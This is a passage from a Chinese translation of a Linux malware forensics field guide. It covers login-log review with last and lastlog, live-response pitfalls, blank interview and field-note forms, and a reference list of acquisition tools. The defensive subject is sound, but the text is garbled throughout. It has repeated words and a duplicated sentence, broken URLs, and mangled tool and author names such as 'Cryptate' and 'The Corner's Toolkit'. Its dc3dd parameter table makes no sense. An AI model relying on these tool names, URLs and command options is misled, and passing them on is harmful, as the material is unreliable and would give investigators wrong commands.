- 发现受损系统与网络上其他计算机之间的此类关系，可能会引导取证人员发现其他系统和额外的有用证据。

## 收集日志和系统日志

- 日志记录可能包含关于恶意软件事件的大量重要信息，包括时间范围、攻击者 IP 地址、受损/未经授权的账户，以及 rootkit 和木马服务的安装。

- Linux 系统上有很多许多包含登录事件信息的文件。

- 除了常规系统日志外，`"wtmp"` 和 `"lastlog"` 文件包含了登录事件的详情。

- `wtmp` 文件是一个简单的数据库，包含登录后会话的详情（与 `utmp` 文件中临时存储的相同信息），可以使用受信任版本的 `last` 命令以人类可读的格式显示其内容，如图 1.72 所示。

```
#### /media/cdrom/Linux-IR/last
eco pts/0               172.16.253.131      Wed Feb 20 16:22 -
eco pts/0               172.16.253.131      Wed Feb 20 16:22
eco tty                                              Oct 13 08:04
root tty                                          Sep 4 19:41
reboot system boot                                Sep 4 19:49
```

图 1.72-使用 `last` 命令查看登录事件

> 分析提示

查看 `wtmp`

`/var/log` 中可能有额外的 `"wtmp"` 文件。`last` 命令的一个缺点是它可能不显示完整的主机。EnCase 工具有一个脚本可以解析并提供完整的主机。

- 存储在 `/var/lastlog` 中的每个账户最近登录或失败登录详情可以使用 `lastlog` 命令显示（图 1.73）。


```
/media/cdrom/Linux-IR/lastlog
Username Port From Latest
root -0500 tty1                           Sep 4 19:41:13
bin                                                               
ftp                                                               
sshd                                                              
webalizer                                                         
eco pts/8 172.16.215.131      Wed Feb 20 16:24:06 -0500
```

图 1.73-使用 `lastlog` 显示每个用户的最近登录事件列表

- 在 Linux 计算机上复制系统日志相对简单，因为大多数日志都是文本格式并通常存储在 `/var/log` 目录下。

- 其他某些版本的 Linux 和 UNIX 将存储存储 `/usr/adm` 或 `/var/adm/`。当 Linux 系统配置将日志发送到远程服务器时，`syslog` 配置文件 `/etc/syslog.conf` 将包含如下格式的行（图 1.74）。

> * @remote-server

图 1.74-指定远程服务器的 `syslog` 配置项

## 总结

- 无论使用什么工具和检查的操作系统，都必须建立一种保护方法论，以尽可能一致和可重复的方式获取易失数据。为了取证目的并维护数据完整性，请详细记录在运行系统上采取的步骤。

- 本章的方法论为运行中的 Linux 系统易失数据的取证保护提供了坚实的基础。根据某些情况可能需要调整。该方法旨在捕获易失数据作为证据，以便客观观察者评估保护过程以及所获取数据本身的可靠性和准确性。

- 收集易失性数据是一个敏感的过程，必须极其小心，以最大限度地减少保存过程中对目标系统造成的更改。强烈不建议在活动系统上进行大量的检查和搜索。如果该系统具有价值，请花时间创建一个磁盘的取证副本进行检查，这在第 3 章中有所介绍。

- 不要信任目标系统的操作系统，因为它可能提供不完整或虚假的信息。为了降低这种风险，请寻找证据的佐证来源，例如端口扫描和网络日志。

- 一旦完成初始的事件响应过程并保存了易失性数据，可能仍需要检查目标系统的完整内存转储和磁盘镜像。例如，作为数字取证调查员，通常有必要检查活动系统的完整内存转储。此外，对受损系统进行检查可能会很有成效，从而揭示被活动系统中的恶意软件隐藏的证据。在受损系统的恢复（克隆）中，你可以对恶意软件的功能有更深入的理解。

- 检查 Linux 系统内存和硬盘的取证镜像的方法和工具（包括克隆和恢复）分别在第 2 章和第 3 章中介绍。

## 应避免的陷阱

### 未遵循授权的政策和准则

- 不要单打独斗，否则你可能会被指责采取错误的响应措施并使事态恶化！

- 在可行的情况下，遵循受害组织授权的书面政策和指南，以确保你对恶意软件事件的响应行动是经过授权的。这些政策应包括获取保存证据和进行数字调查授权的流程。

- 当出现现有政策未涵盖的意外情况，或者组织没有管理恶意软件事件响应的政策时，在采取行动之前从决策者处获得书面授权。此类情况可能包括中断业务连续性的行动；你不想对任何任何损失或法律诉讼负责。

- 遵循以符合取证严谨性的在活动系统上保存证据的指南，以避免破坏珍贵的证据。

### 未制定包含完成特定响应/分析计划的初始策略

- 在明确定义目标之前，不要急于对恶意软件事件进行响应，否则你可能会面临错过证据和调查机会，并最终无法解决重要问题。

- 定义你的恶意软件事件响应和分析目标，并制定一个实现这些目标的策略。

- 记录你朝着既定目标的进展，并随着有关恶意软件事件的新信息的发现对你的计划进行任何必要的调整。

### 在事件发生前不熟悉工具、技术和协议

- 不要等到实际发生恶意代码事件时才去熟悉你调查目标系统将要使用的取证流程、技术和工具。

- 通过在测试环境中使用工具来练习活动技术，以变得并保持熟练。

- 可能的情况下参加相关培训。预算限制、时间限制和其他因素往往使参加正式培训变得困难。如果你无法参加，请变通处理：参加免费的在线网络研讨会；观看基于网络的教程；审阅自学文本、白皮书和博客；以及参加当地的信息安全小组会议。

## Linux 系统恶意软件取证指南

- 保持工具和技术的同步性。响应是数字取证领域一个蓬勃发展的领域；几乎每天都有新工具或工具更新发布，新的研究和技术被讨论。关注最新动态可能会扩展你的响应知识库和技能范围。

- 跟进新威胁。与保持工具和技术的同步性类似，后者同样重要——关注恶意代码趋势、漏洞和攻击向量。

- 利用社交网络和列表等资源。通常很难找到时间参加培训、读本书或参加当地的信息安全小组会议。通过 Twitter 和 Facebook 等社交媒体跟进响应工具和技术。加入这些媒体上的特定列表或群组可以提供感兴趣的话题的实时更新。

### 未能测试和验证你的工具

- 在没有对工具的功能、局限性、“足迹”以及对系统潜在的负面影响（例如崩溃）有清晰了解之前，不要在目标系统上部署工具。

- 研究你打算整合到活动响应工具包中的工具。它们是否被取证社区广泛接受？是否有已知的“臭虫”或局限性需要注意？你是否读过该工具的所有文档？

- 在测试环境中部署工具，以验证其功能并清楚地了解每个工具的工作原理以及它对所部署的系统产生什么影响。

- 在与证据系统相同或足够相似的测试环境中编译并测试工具，以确保它们在活动响应期间运行正常。除了操作系统或内核版本之外，需要考虑的相似性还包括运行的服务和加载的内核模块，响应工具可能会与这些模块产生不利交互并破坏高可用性服务或系统。

- 记录你的发现——关于工具的笔记不仅是宝贵的参考，还可以用于编写报告。

- 此外，当你遇到工具问题时，考虑通知开发人员，以帮助在工具的未来版本中确认并补救潜在问题。

### 使用许可不当的商业工具

- 不要使用“破解版”或“盗版”工具。记住，你的调查可能导致法律诉讼、刑事、民事或行政诉讼。在调查过程中解释你使用了非法或不合道德手段获取的工具可能会损害你的信誉——并可能损害你的调查——无论你的分析和工作产物是多么准确详尽。

- 当你拥有某个工具的许可证时，确保你根据许可条款使用它。例如，如果在恶意软件事件期间有多人同时使用该工具，请确保该许可允许此类使用。另一个例子，如果工具的输出包含许可者的名称，请确保该信息准确，以避免未来对工具所有权合法性的质疑。

### 在活动响应之前未进行访谈

- 在活动响应之前未对相关人员进行访谈可能会导致你错过重要细节。

- 在活动响应之前对相关人员进行访谈可以为你提供有关目标系统的信息，包括事件发生的情况、目标系统的背景以及对你的调查至重要的系统细节。

### 过早清理受损系统

- 在未先采取保存证据和确定事件范围范围之前尝试修复受损计算机，可能会导致恶意软件再次感染。

- 在尝试将受损系统恢复到已知状态之前，保存证据并进行取证分析以确定事件的范围。

### 直接从目标系统运行非可信工具

- 不要运行目标系统上发现的非可信工具来收集证据。

- 系统是一个未知且不可信的环境，由于受感染系统，易失性数据的收集可能会污染。运行依赖可能被恶意软件入侵的操作系统的非可信工具会增加获取数据不可靠的风险。

# Linux 系统恶意软件取证现场指南

### 未使用洁净工具包或符合取证要求的/清洁采集介质

- 不要通过受感染的工具包传播恶意软件，不要通过获取“脏”介质来污染你的数据。

- 始终确保用于获取现场响应数据的介质是原始的，不包含无关的案件数据、恶意代码样本以及之前调查的痕迹。

- 在部署之前务必检查你的工具包和采集介质。

- 注意，常见的恶意代码传播媒介是 USB 设备——你正在调查的恶意软件可能会通过连接系统而传播并感染你的现场响应模式。因此，建议每次响应恶意软件事件时，都使用全新的、已知的响应工具包副本。此外，在系统上运行工具包之前，请验证其完整性（例如使用 `MD5` 值），以确保其不会成为感染媒介。

## 未遵循易失性顺序

- 丢失关键证据。

- 如本书的引言和第一章所述，系统在通电期间包含能够揭示系统状态的关键瞬态信息。

- 现场响应的目的是以符合取证要求的方式收集易失信息以防止其丢失；未能遵循易失性顺序而先收集易失性较低的信息，不仅会影响系统中易失数据（例如内存内容）的状态，还会增加数据完全丢失的风险。网络连接、进程状态和数据缓存如果不及时获取，将会迅速发生变化。

## 未记录系统日期和时间

- 在现场响应开始时忘记记录系统日期和时间并与可靠来源进行对比，可能会给你的调查带来问题。

- 系统日期和时间是关于嫌疑系统的重要细节，将为你调查中时间背景的基准。

- 确保在通过现场响应工具包获取日期时间的同时，在调查笔记中也记录系统日期和时间。

## 未在现场响应过程开始时获取物理内存内容

- 通过在内存中留下“深度足迹”来污染/影响证据。

- 如第一章所示，在目标系统上运行现场响应工具会影响物理内存的内容。

## 恶意软件事件响应

- 在进行其他现场响应流程之前获取物理内存，以努力在获取时保持内存内容尽可能原始。

# 收集不完整的系统细节

- 不完整的系统细节可能会影响你目标系统周围的上下文。

- 确保尽可能地收集关于目标系统的细节，让你对系统及其周围环境有深入的了解。例如，系统日期/时间和系统运行时间等关键细节是建立恶意代码周围时间线的基础。

- 收集系统的主机名、IP 地址和其他基于网络的标识符，对于检查其与网络上其他系统的关联关系上下文至关重要。

# 未确定攻击者是否仍登录了目标系统

- 不要让攻击者知道你正在调查他们。

- 在攻击者仍留在目标系统时进行现场响应，极有可能引起攻击者对你调查的注意。由于你可能无法依赖操作系统来获取准确信息，请考虑监控网络流量或其他方法来确定入侵者是否连接到目标系统。

- 惊动攻击者可能会对你的调查和目标系统（以及网络上的其他系统）产生灾难性的后果，例如证据销毁、攻击升级，或为了维持对系统的隐蔽、未被察觉且持续的访问而进行的进一步破坏。在可行范围内，应采取措施防止入侵者发现你的响应活动，例如将系统下线进行“计划维护”，并从目标系统中移除响应的痕迹。

# 未进行全方位/全局性调查

- 未能获取关于目标系统和恶意代码事件的完整上下文。

- 对目标系统进行“扁平化”或不完全的调查将限制你对恶意代码事件、对目标系统的影响以及攻击的性质和目的的理解。

- 进行完整且彻底的调查，从多个角度对数据进行收集，以便进行完整的分析。例如，在从目标系统收集运行进程信息时，仅仅收集运行进程列表而不提供额外细节，将使你作为数字取证员缺乏关于进程的足够的客户信息以及与其他证据的关联上下文。

- 如果由他人执行了初步响应和证据收集，请检查他们的工作，不要假设他们的调查是完整或全面的。

# 不完整或粗率的文档记录

- 不要通过糟糕的记录来危及你的调查。

- 如本书引言所述，取证完备性的关键之一是记录。

- 一个可靠的案件建立在支持性文档之上，这些文档报告了证据的来源以及处理方式。

- 从取证角度来看，采集过程应尽可能少地改变原始证据，任何更改都应记录并进行评估。

# 现场响应：现场访谈

| 问题 | 细节 |
| :--- | :--- |
| 案件编号： | |
| 日期： | |
| 数字取证员： | |
| 组织： | |
| 事件类型： | |
| 访谈者： | |
| 部门： | |
| 电话号码： | |
| 电子邮件： | |
| 法律顾问： | |
| 系统是否为共享？ | [是 / 否] |
| 是否由其他组织托管？ | [是 / 否] |
| 系统管理员是谁？ | |
| 谁维护该系统？ | |
| 谁有权访问系统？ | |
| 用户是否授权在系统上操作？ | |
| 系统上是否有可访问的网络共享？ | |
|与其他系统是否有信任关系？ | |
| 目标系统的目的/功能： | |
| 系统是如何联网的？ | |
| 目标系统的 IP 地址： | |
| 目标系统的主机名： | |
| 系统上是否有敏感信息？ | |
- 商业秘密/知识产权
- 个人身份信息 (PII)/个人健康信息 (PHI)
- 业务机密
- 未分类
- 其他：

| 系统上是否曾发生过恶意软件事件？ | |

# 事件发生前的系统/网络基准与证据映射

- 已知在系统上运行的程序：

- 哪些程序具有特定的网络连接：

- 系统的软件构建情况（例如 Web 浏览器等）？

- 预计在系统上发现哪些软件程序？

- 系统上是否存在用于合法用途但可能误认为是恶意的工具（例如 `netcat`）？

- 系统是否拥有主机安全软件：

- 反病毒软件：

- 反间谍软件：

- 软件防火墙：

- 网络安全套件（例如防病毒和防火墙）：

- 主机入侵检测系统 (HIDS)：

- 主机入侵防御系统 (HIPS)：

- 文件完整性监控：

- 卡/双因子身份验证：

- 其他：

- 网络安全软件/设备：

- 代理服务器缓存：

- 防火墙：

- 路由器：

- DNS 查询监控/日志记录：

- 入侵检测系统 (IDS)：

- 入侵防御系统 (IPS)：

- 事件响应/网络取证设备：

- 其他：

## 第 1 章 恶意软件事件响应

## 日志

- 收集并维护了哪些系统和网络日志？

- 日志维护在何处？

- 是否可以提供日志副本供本次调查使用？

- 谁负责监控和分析日志？

- 多多多久审查一次日志？

- 如何审查日志？

- 上一次审查日志是什么时候？

- 日志维护/归档追溯到多久以前？

## 安全策略

- 是否禁止特定设备连接到系统？

- 允许什么类型的物理设备连接到系统？

  - 哪些物理设备曾连接到系统？

- 是否禁止在系统上运行某些程序？

- 是否禁止在系统上运行某些协议？（例如：文件共享、p2p）

## 之前的感染或入侵迹象：

- 识别出的系统异常：

  - 异常异常异常？

  - 系统是否在异常时间被访问或登录？

  - 与目标系统相关的网络异常：

    - 是否在异常时间有进出系统的网络流量？

    - 进出系统的网络流量是否存在异常波动？

    - 是否有异常协议在调用或流出系统？

  - 是否从其他系统上观察到类似的异常流量？

## 事件发现：

- 在事件响应过程中是否识别出任何系统异常？

  - 异常异常是什么？

- 是否发现与目标系统相关的异常网络流量？

## 现场响应：现场笔记

| 案件编号: | 日期/时间: |
| --- | --- |
| 数字取证员: | |
| 组织/公司: | 地址: |
| 事件类型: | [ ] 木马 [ ] 蠕虫 [ ] 病毒 [ ] 终端 [ ] 恐吓/假杀毒软件 [ ] Rootkit [ ] 逻辑炸弹 [ ] 键盘记录器 [ ] 勒索软件 [ ] 变体 [ ] 其他 [ ] 未知 |
| 系统信息: | 品牌/型号: |
| 序列号: | 系统的物理位置: |
| --- | --- |
| 操作系统: | 系统状态: |
| [ ] 已启动 [ ] 已连接互联网 | [ ] 休休眠 [ ] 已连接内网 |
| [ ] 已关机 [ ] 已断开 | |

## 易失数据 

| 物理内存: | 未获取[原因]: |
| --- | --- |
| 日期/时间: | |
| 文件名: | |
| 大小: | |
| MD5 值: | |
| SHA1 值: | |
| 使用工具: | |

## 系统详情:

日期:

- [ ] IP 地址:

- [ ] 主机名/网络名称:

- [ ] 当前用户:

网络接口配置:

- [ ] 混杂模式

- [ ] 其他:

系统运行时间:

系统环境:

- [ ] 操作系统:

- [ ] 内核版本:

- [ ] 处理器:

## 登录系统的用户:

- 用户登录源点：已登录系统：

  - [ ] 远程登录

  - [ ] 本地登录

  登录会话时长:

  - [ ] 用户访问的共享、文件或其他资源:

  与用户相关的进程:

  - [ ] 归属于用户的网络活动:

## 网络连接与活动:

- 系统已连接到网络:

网络连接:

- 协议: TCP / UDP

- 本地端口:

- 状态: ESTABLISHED, LISTEN, SYN SEND, SYN RECEIVED, TIME WAIT, 其他

- 远程连接地址:

- 远程连接端口:

- 与连接相关的进程 ID:

- 目标系统的异常 DNS 查询:

- 收集的 ARP 缓存

## 运行进程:

## 识别出的可疑进程:

- 进程名称:

- 进程标识 (PID):

- 进程运行时长:

- 使用的内存:

- 关联执行文件路径:

### 关联用户:

- 子进程:

- 命令行参数:

## 已加载的库/模块:

## 已导出的库/模块:

### 已获取的进程内存

- 文件名:

- 文件大小:

- MD5 哈希值:

## Linux 系统恶意软件取证现场指南

已识别的可疑服务：

服务名称：

显示名称：

状态：

已运行

已停止

启动配置：

描述：

依赖项：

与服务关联的可执行程序：

进程 ID (PID)：

描述：

可执行路径：

与服务关联的用户：

| 已识别的可疑服务： | 已识别的可疑服务： |
| --- | --- |
| 服务名称: | 服务名称: |
| 显示名称: | 显示名称: |
| 状态: | 状态: |
| 已运行 | 已运行 |
| 已停止 | 已停止 |
| 启动配置: | 启动配置: |
| 描述: | 描述: |
| 依赖项: | 依赖项: |
| 与服务关联的可执行程序: | 与服务关联的可执行程序: |
| 进程 ID (PID): | 进程 ID (PID): |
| 描述: | 描述: |
| 可执行路径: | 可执行路径: |
| 与服务关联的用户: | 与服务关联的用户: |

已识别的可疑服务：

服务名称：

显示名称：

状态：

已运行

已停止

启动配置：

描述：

依赖项：


与服务关联的可执行程序：

进程 ID (PID)：

描述：

可执行路径：

与服务关联的用户：

已识别的可疑服务：

服务名称：

显示名称：

状态：

已运行

已停止

启动配置：

描述：

依赖项：

与服务关联的可执行程序：

进程 ID (PID)：

描述：

可执行路径：

与服务关联的用户：

已识别的可疑服务：

服务名称：

显示名称：

状态：

已运行

已停止

启动配置：

描述：

依赖项：

与服务关联的可执行程序：

进程 ID (PID)：

描述：

可执行路径：

与服务关联的用户：

已识别的可疑服务：

服务名称：

显示名称：

状态：

已运行

已停止

启动配置：

描述：

依赖项：

与服务关联的可执行程序：

进程 ID (PID)：

描述：

可执行路径：

与服务关联的用户：

# 第一章 恶意软件事件响应

83

| 已获取的内核模块列表

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情：

- 可疑模块：

名称：

位置：

详情： |

| 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置：

- 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置：

- 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置：

- 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置：

- 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置：

- 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置：

- 已识别打开文件：

- 远程打开/本地打开

名称：

- 打开文件的进程：

文件在系统上的位置： |

| 命令历史：

- 已获取的命令

- 已识别的感兴趣命令

否

否 | 感兴趣的命令： |

| 网络共享：

- 已检查的网络共享

已识别的可疑共享

名称：

位置：

描述：

- 已识别的可疑共享

名称：

位置：

描述：

- 已识别的可疑共享

名称：

位置：

描述：

- 已识别的可疑共享

名称：

位置：

描述：

- 已识别的可疑共享

名称：

位置：

描述： |

## Linux 系统恶意软件取证现场指南

| 计划任务： | 可疑任务： |

|---|---|

| 已检查的计划任务 | 任务名称： |

| 系统上检查的任务 | ☐ 计划运行时间： |

| ☐ 是 | 状态： |

| ☐ 否 | 描述： |

| ☐ 已识别的可疑任务： | 任务名称： |

| ☐ 是 | ☐ 计划运行时间： |

| ☐ 否 | 状态： |

| | 描述： |

| 剪贴板内容： | 剪贴板内容 |

|---|---|

| 已检查的剪贴板内容 | |

| 已识别的可疑内容： | |

| ☐ 是 | |

| ☐ 否 | |

## 非易失性数据

| 存储介质取证复制： | |

|---|---|

| 媒体类型： | ☐ 外硬盘 ☐ 外部设备/媒体 |

| ☐ 硬盘 | ☐ 序列号： |

| ☐ 驱动器/型号： | |

| 容量： | |

| ☐ 注意： | |

| 已获取 | ☐ 未获取 [原因]： |

|---|---|

| ☐ 日期/时间： | |

| ☐ 文件名： | |

| ☐ 大小： | |

| ☐ MD5 值： | |

| ☐ SHA1 值： | |

| ☐ 使用的工具： | |

| 注意： | |

| 媒体类型： | ☐ 外硬盘 ☐ 外部设备/媒体 |

|---|---|

| ☐ 硬盘 | ☐ 序列号： |

| ☐ 驱动器/型号： | |

| 容量： | |

# 第1章 恶意软件应急响应

## 恶意软件提取

| 识别到可疑文件： | 识别到可疑文件： |

| :--- | :--- |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 大小: | ☐ 大小: |

| ☐ 位置: | ☐ 位置: |

| ☐ MAC 时间: | ☐ MAC 时间: |

| - ☐ 创建: | - ☐ 创建: |

| - ☐ 访问: | - ☐ 访问: |

| - ☐ 修改: | - ☐ 修改: |

| ☐ 关联进程/PID: | ☐ 关联进程/PID: |

| ☐ 关联网络活动: | ☐ 关联网络活动: |

| ☐ 关联产物: | ☐ 关联产物: |

| 已提取可疑文件： | 已提取可疑文件: |

| ☐ 是: | ☐ 是: |

| ☐ 否: 原因: | ☐ 否: 原因: |

| 识别到可疑文件： | 识别到可疑文件： |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 大小: | ☐ 大小: |

| ☐ 位置: | ☐ 位置: |

| ☐ MAC 时间: | ☐ MAC 时间: |

| - ☐ 创建: | - ☐ 创建: |

| - ☐ 访问: | - ☐ 访问: |

| - ☐ 修改: | - ☐ 修改: |

| ☐ 关联进程/PID: | ☐ 关联进程/PID: |

| ☐ 关联网络活动: | ☐ 关联网络活动: |

| ☐ 关联产物: | ☐ 关联产物: |

| 已提取可疑文件： | 已提取可疑文件: |

| ☐ 是: | ☐ 是: |

| ☐ 否: 原因: | ☐ 否: 原因: |

| 识别到可疑文件： | 识别到可疑文件： |

| ☐ 文件名: | ☐ 文件名: |

| ☐ 大小: | ☐ 大小: |

| ☐ 位置: | ☐ 位置: |

| ☐ MAC 时间: | ☐ MAC 时间: |

| - ☐ 创建: | - ☐ 创建: |

| - ☐ 访问: | - ☐ 访问: |

| - ☐ 修改: | - ☐ 修改: |

| ☐ 关联进程/PID: | ☐ 关联进程/PID: |

| ☐ 关联网络活动: | ☐ 关联网络活动: |

| ☐ 关联产物: | ☐ 关联产物: |

| 已提取可疑文件： | 已提取可疑文件: |

| ☐ 是: | ☐ 是: |

| ☐ 否: 原因: | ☐ 否: 原因: |

## 恶意软件取证工具箱

用于 Linux 系统调查的现场响应工具

在本章中，我们讨论了在现场响应调查过程中可以使用许多工具。在整个章节中，我们部署了许多工具来演示它们在受感染系统上使用时的功能和输出；然而，还有许多你应该注意并熟悉的备选工具。本节也可以简单地作为“工具快速参考”或“备忘录”，因为在调查过程中，不可避免会遇到这种情况：拥有对实际功能有用的额外工具是有益的。

本节中的工具通过总的“工具类型”进行标识，界定了相应工具如何整合到你的恶意软件取证现场响应工具包中的范围。此外，每个工具条目都提供了有关工具作者/发行者、相关 URL、工具描述以及在适用时的有用命令开关。

## 应急工具套件

在第 1 章中，我们逐步检查了应急响应流程，使用特定工具从目标系统获取不同方面的有状态数据。有许多工具专门设计用于在应急响应期间以自动方式从 Linux 系统收集数字证据，并生成保存过程的支持性文档。本节涵盖了这些工具选项，包括工具的优缺点。

## Linux 系统恶意软件取证现场指南

| 名称: LINReS v1.1-Linux 应急响应脚本 |

| :--- |

| 页码参考: 7 |

| 作者/发行者: Ni Consulting |

| 获取地址: http://www.niconsulting.com/innovation/linres.html |

| 描述: LINReS 是一种现场响应工具，它通过四个脚本调用 80 多个可信的二进制文件，以从系统中收集易失性和非易失性数据。启动脚本 `init.sh` 是主脚本，按预定义的顺序调用三个“子脚本”。第一个脚本 `main.sh` 收集运行中的进程、开放的网络连接、最后登录和错误日志等元素。第三个脚本 `net_alata.sh` 收集系统上所有文件的信息。最后一个脚本 `hash.sh` 收集系统上每个文件的 MD5 哈希值。脚本收集的数据通过 `netcat` 传输到取证工作站，`netcat` 在脚本执行期间会自动调用。Linres 最初设计用于从旧版 Red Hat 系统进行现场数据采集，数字调查人员可能需要调整脚本，以确保从目标系统进行有效且符合取证标准的收集工作。 |

## Helix (Linux 应急响应脚本 [linux-ir.sh] 和静态二进制文件)

| 页码参考: 7 |

| :--- |

| 作者/发行者: E-Fence |

| 获取地址: http://www.e-fence.com/products_php (选择 Helix3 链接) |

| 描述: 较旧（非专利）版本的 Helix 应急响应 CD 包含一个自动化现场响应脚本 (`linux-ir.sh`)，用于从受侵害的系统收集易失数据。`linux-ir.sh` 顺序调用 120 多个静态编译的二进制文件（这些文件不引用目标系统上的库）。`linux-ir.sh` 顺序调用 120 多个静态编译的二进制文件（这些文件不引用目标系统上的库）。 |

| 名称: 现场响应工具包 (Live Response Toolkit) |

| :--- |

| 页码参考: 7 |

| 作者/发行者: Enno Krause |

| 获取地址: http://computer-forensics.org/tools/ |

| 描述: Live Response Toolkit 是用于 Linux 系统现场响应的工具集。 |

## 远程工具

记住，在某些情况下，为了减少与系统的交互，最好在本地部署工具但通过网络收集获取的数据。双接头——一个用于目标机，一个用于调查员（如下所示）——成对进行连接。

## 第 1 章 恶意软件应急响应

| 名称: F-Response TACTICAL |

| :--- |

| 页码参考: 58 |

| 作者/发行者: Matthew Shannon-F-Response |

| 获取地址: http://www.f-response.com/ |

| 描述: 一种用于现场应急响应的精简解决方案，F-Response 使用一种独特的双接头设备，让数字调查人员在对目标拓扑了解有限的情况下快速进行分析。双接头——一个用于目标系统，一个用于调查员（如下所示）——成对进行连接。 |

# LINUX 系统恶意软件取证领域指南

一旦启动，数字取证人员可以选择通过提供系统详情手动连接到目标系统（在 GUI 中，如下所示），或使用“自动连接”功能，该功能会自动尝试识别并获取目标系统。



获取后，TACTICAL Examiner 会提供有关已获取目标系统的详情。与 F-Response 的其他版本类似，连接到目标系统后，数字取证人员可以使用其自己的工具从系统中收集数据。



## 名称：Netcat

页码参考：4

**作者/分发者：** 由“Hobbit”原始实现；由 Eric Jackson 重写并支持 IPv6。

**获取地址：** http://netcat.sourceforge.net/download.php

**描述：** `netcat` 通常被称为工具中的“瑞士军刀”，是一种多功能的网络实用程序，利用 TCP/IP 协议跨网络连接读写数据。数字取证人员在现场响应期间通常将 `netcat` 作为基于网络的传输解决方案使用。

| 参数 | 功能 |

|---|---|

| -l | 监听模式，用于入站连接 |

| -p | 本地端口号 |

| -h | 帮助菜单 |

## 名称：Cryptate

页码参考：4

**作者/分发者：** “farm9”在“Dan F.,、“Jeff Nathan,”“Matt W., Frank Knobbe,“Drakes,” Bill Weiss 和“Jimmy”的帮助下。

**获取地址：** http://cryptate.sourceforge.net/

**描述：** 增强了 twofish 加密的 `netcat`

| 参数 | 功能 |

|---|---|

| -l | 监听模式，用于入站连接 |

| -p | 本地端口号 |

| -h | 帮助菜单 |

# 易失数据采集与分析工具

## 物理内存获取

第一章强调了在使用响应工具包中的各种工具收集数据之前，从目标系统获取完整内存转储（memory dump）的重要性。这非常重要，特别是因为在目标系统上运行事件响应会改变内存的内容。为了从物理内存中获得最多的数字证据，建议在运行任何其他事件响应进程之前执行全内存采集。有多种工具可以完成此任务，如下所示。

| 名称：LIME |

| 页码参考：19 |

| 作者/分发者：Joe Slice |

| 获取地址：http://code.google.com/p-limensics/ |

| 描述：Linux 内存提取器 (LIME) 是一种加载的内核模块，用于从 Linux 和 Android 系统获取物理内存内容。该工具支持将内存获取到本地文件系统（例如 USB 设备或 SD 卡）或通过网络获取。 |

用法：`./insmod /sdcard/lime.ko path="/sdcard/ram.padded format=padded"`

| 参数 | 功能 |

|---|---|

| path= | 导出数据的位置 |

| format= | Padded, lime 或 raw |

| dio= | 启用直接 IO 10 次尝试（默认值），0 禁用 |

## 名称：SecondLook 物理内存获取脚本 (secondlook-memdump.sh) |

| 页码参考：18 |

| 作者/分发者：Andrew Tapper/Raytheon PikesWorks |

| 获取地址：http://secondlook.forensics.com/ |

| 描述：SecondLook 物理内存获取脚本 (sh) 允许取证人员使用 crash 驱动 (`/dev/crash`) 从 Red Hat 或 CentOS 系统收集物理内存，或使用用户指定的内存访问设备（如 `/dev/mem` 或专用物理内存访问驱动 (PMAD);创建一个可访问的伪设备 `/dev/pmad`）从其他系统收集。使用 `secondlook-memdump.sh` 收集的物理内存可以在 SecondLook 内存取证工具（第二章讨论）中检查。 |

```
用法：./secondlook-memdump.sh dumpfile [memdevice]
```

## 名称：fnmem

页码参考：17

作者/分发者：Ivor Kollar

获取地址：http://hysteria.sk/-niekt0/fmem/

描述：`fnmem` 是随 Foriana（取证内存分析器）工具提供的自定义内核模块，使数字取证人员能够获取物理内存。特别是 `fnmem` 内核模块 (`.ko`) 创建了一个伪设备 `/dev/fmem`，类似于 `/dev/mem` 但没有获取限制。可以使用 `dd` 或其他工具复制 `fnmem`（物理内存）。`fnmem` 包含一个脚本 (`run.sh`) 来执行该过程。

## 名称：memdump

页码参考：9

作者/分发者：Dan Farmer 和 Wiet Venema

获取地址：http://www.porcupine.com/forensics/html

描述：The Corner's Toolkit 中的 `memdump` 命令是一套用于 Linux/Unix 系统取证获取和分析的工具套件，可将物理内存的内容保存到文件中。

## 名称：dc3dd

页码参考：8

作者/分发者：Defense Cyber Institute (CCI)

获取地址：http://sourceforge.net/projects/dc3dd

描述：`dd` 工具的取证增强版，用于在 Linux 系统中复制和转换文件。该工具的多功能性为数字取证人员提供了获取物理内存、硬盘和其他介质的能力。用法示例：Linux 系统中的 `/dev/mem`

用法：

- if= | 写入 stdout

- log= | 写入 stderr

- sz | 写入 stdin

# 事件响应

## 收集详情

系统详情是理解恶意行为的基础方面，特别是由于在目标系统上运行事件响应会改变内存内容。除了第一章提到的工具外，还可以考虑以下项：

## 名称：uname

页码参考：23

作者/分发者：David McKenzie

获取地址：GNU coreutils（用于 Linux 系统）；http://www.gnu.org/software/coreutils

